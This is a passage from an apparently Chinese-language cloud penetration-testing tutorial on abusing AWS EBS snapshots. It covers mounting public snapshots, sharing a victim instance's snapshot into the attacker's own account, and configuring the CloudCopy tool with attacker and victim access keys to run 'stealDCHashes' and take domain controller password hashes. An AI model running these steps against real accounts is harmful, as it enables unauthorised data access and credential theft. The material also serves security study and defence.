 ![img](https://wiki.teamssix.com/img/1650001092.png)

通过大小可以判断出来 /dev/xvdf 是刚才刚才添加的卷，然后将这个卷挂载到实例中，通过 ls 就可以看到这个公有快照中的数据了。

```bash
sudo mkdir /test
sudo mount /dev/xvdf3 /test
sudo ls /test
```

![img](https://wiki.teamssix.com/img/1650001117.png)

**私有快照**

在拿到目标 AWS 控制台权限时，如果无法登录到实例，可以为目标实例打个快照，然后将快照共享给自己。

![img](https://wiki.teamssix.com/img/1650001136.png)

将自己的账号 ID 添加到快照共享后，在自己的 AWS 快照控制台的私有快照处就能看到目标快照了，此时就可以将其挂载到自己的实例，查看里面的数据了。



![img](https://wiki.teamssix.com/img/1650001161.png)

目前也已经有了自动化工具了，CloudCopy 可以通过提供的访问凭证自动实现创建实例快照、自动挂载快照等操作

不过 CloudCopy 默认只会获取实例中的域成员哈希值，也就是说前提目标实例是一个域控，不过将这个工具稍微加以修改，就可以获取到其他的文件了，下面来看下这个工具的使用。

获取 CloudCopy 工具

```bash
git clone https://github.com/Static-Flow/CloudCopy.git
cd CloudCopy
python3 CloudCopy.py
```

如果运行报错，一般是因为第三方库缺失，根据提示安装对应模块即可

接下来，开始进行相应的配置，输入自己的 AWS 账号 ID 及访问凭证以及目标的访问凭证

```bash
manual_cloudcopy
show_options
set attackeraccountid xxx
set attackerAccessKey xxx
set attackerSecretKey xxx
set victimAccessKey xxx
set victimSecretKey xxx
set region ap-northeast-2
```

![img](https://wiki.teamssix.com/img/1650001184.png)

配置好之后，就可以利用 CloudCopy 进行哈希窃取了

```bash
stealDCHashes
```
